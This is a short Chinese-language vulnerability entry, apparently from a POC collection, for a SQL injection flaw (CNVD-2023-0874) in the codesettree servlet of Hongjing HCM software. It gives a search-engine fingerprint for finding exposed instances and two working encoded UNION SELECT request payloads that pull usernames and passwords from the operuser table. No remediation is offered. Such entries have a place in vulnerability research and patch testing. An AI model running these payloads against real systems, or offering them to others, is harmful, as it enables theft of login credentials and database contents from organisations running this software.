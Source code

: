 # 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-0874

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

宏景 HCM

## 网络测绘

```
app="HJSOFT-HCM"
```

## 漏洞复现

登陆页面

![image-20230704113309837](images/image-20230704113309837.png)

验证POC

```
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![image-20230704113329354](images/image-20230704113329354.png)